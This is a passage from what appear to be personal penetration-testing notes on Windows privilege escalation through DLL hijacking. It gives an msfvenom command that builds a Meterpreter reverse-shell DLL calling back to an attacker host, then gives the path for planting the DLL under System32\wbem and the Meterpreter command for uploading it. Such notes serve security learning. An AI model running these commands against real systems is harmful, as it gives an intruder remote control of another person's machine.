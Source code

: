         ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2028.png)
        
        ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2029.png)
        
        `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=PORT -f dll > hijackme.dll`
        
        After generating the custom DLL, we can transfer it to the target system under the
        respective service path. In our case, the path will be the following:
        `C:\Windows\System32\wbem`
        We can upload the custom DLL with Meterpreter by running the following command:
        `upload /PATH-TO-DLL/hijackme.dll`
        
        ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2030.png)
        